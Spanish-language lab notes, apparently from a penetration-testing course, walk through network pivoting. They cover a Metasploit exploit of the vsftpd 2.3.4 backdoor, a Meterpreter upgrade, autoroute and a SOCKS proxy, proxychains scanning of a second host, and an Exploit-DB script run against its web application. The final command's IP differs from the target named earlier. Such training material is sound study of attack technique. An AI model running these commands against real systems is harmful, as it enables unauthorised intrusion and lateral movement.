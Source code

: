 
Para ver el funcionamiento de pivoting se plantea un ejemplo:

Hosts víctima:
1. 192.87.244.3
2. 192.18.69.3

Primero vamos a realizar un scan al primer host:

![[Pasted image 20250307091327.png]]

![[Pasted image 20250307091439.png]]

Parece que tenemos un ftp y un servicio ssh.  La versiónd el FTP parace bastante antigua, si buscamos los sploits disponibles podemos dar con alguno.

![[Pasted image 20250307091522.png]]

```bash
msfconsole -q
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.87.244.3
exploit
```

![[Pasted image 20250307091700.png]]

```bash
#Vamos a poner está sesión de fondo y mejorarla a un meterpreter.
^Z
sessions -u 1
#Con esto podemos mejorar la sesión a un meterpreter.

#Vamos a ver que ip nos interesa analizxar
sessions 2
ipconfig
```

![[Pasted image 20250307091915.png]]

```bash
background
use post/multi/manage/autoroute
set SUBNET 192.18.69.0
set SESSION 2
exploit

#hay que ver que versión socks estamos utilizando con
cat /etc/proxychains.conf
#Esta al final, en el ejmplo es 4

use auxiliary/server/socks4a
#Para saber el server port también está al final del proxychains.conf
set SRVPORT 9050
exploit

#Hay que abrir una nueva tab
proxychains nmap -sT -Pn 192.18.69.3
```

![[Pasted image 20250307093352.png]]

Como no hemos vinculado puertos no podemos entrar en el navegador y observar la web del puerto 80. Pero podemos hacer una consulta por proxychains.

```bash
proxychains curl http://192.18.69.3
```

![[Pasted image 20250307093511.png]]

Parece que existen exploits para la tecnología que está utilizando el servidor web.

```bash
#Vamos a utilizar el primero de esos exploits
cp /usr/share/exploitdb/exploits/php/remote/38730.py .
#Ver funcionamiento
cat 38730.py
proxychains python 38730.py http://182.18.69.3/clipper/ admin password
```

![[Pasted image 20250307093920.png]]

